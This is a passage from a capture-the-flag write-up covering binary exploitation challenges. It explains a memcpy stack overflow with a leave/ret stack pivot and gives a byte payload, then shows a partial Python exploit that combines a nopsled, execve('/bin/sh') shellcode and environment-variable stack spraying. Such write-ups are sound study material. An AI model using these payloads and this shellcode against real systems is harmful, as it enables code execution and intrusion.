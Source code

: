 In *0x080492ba*(`<+30>:	call   0x8069660 <memcpy>`), the memcpy will trigger stack overflow by copying decrypted input. As above mentioned, we can only overwrite the $esp. However, the following code:
```asm
0x0804930b <+111>:	leave
0x0804930c <+112>:	ret
```

is equal to:
```asm
mov esp，ebp;
pop ebp;
pop eip;
```

What's more, pop uses $esp's current address to get data. We can point $esp to the address of *input*. Then use the first 4 bit of *location* to set *$eip* to *correct* function.

There is an additional check in *correct* function. Just set the 4-8 byte to `0xdeadbeef` to bypass.

Final payload:
`bypass check` + `set eip to correct` + `overflow the esp to input pointer` = `\xef\xbe\xad\xde\x5f\x92\x04\x08\x40\xeb\x11\x08`, which is the same as: `776t3l+SBAhA6xEI`

# Tiny Easy (pt30

We get a application with little disasm code:
```assembly
pop eax
pop edx  
mov edx,DWORD PTR [edx]  
call edx
```

Let's set a break point at `call edx` and investigate what will happen:
```
 EAX  0x1
 EBX  0x0
 ECX  0x0
 EDX  0xffffd372 ◂— 0x6d6f682f ('/hom')
 EDI  0x0
 ESI  0x0
 EBP  0x0
 ESP  0xffffd1b8 ◂— 0x0
 EIP  0x8048058 ◂— mov    call edx
```

The program pops the address of the first 4 bytes of first argument(`/home/tiny_easy/tiny_easy`) to the register. And after checking sec, `N^X` is not enabled. We cannot leak any address through the tiny program, therefore, we need to use stack spray to increase our exploit possibility. By the way, we also need to use special function to execute the ELF, otherwise the system will always set the first argument as `/home/tiny_easy/tiny_easy`.

Final script(I forgot to save mine, this is create by [Eugene Kolo](https://eugenekolo.com/blog/)):
```python
import os  
import subprocess

jumpto = "\xb0\xaf\xb5\xff"  
shellcode = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"  
nopsled = "\x90"*4096;  
payload = nopsled+shellcode

myenv = {}  
for i in range(0,100):  
    myenv["spray"+str(i)] = payload
```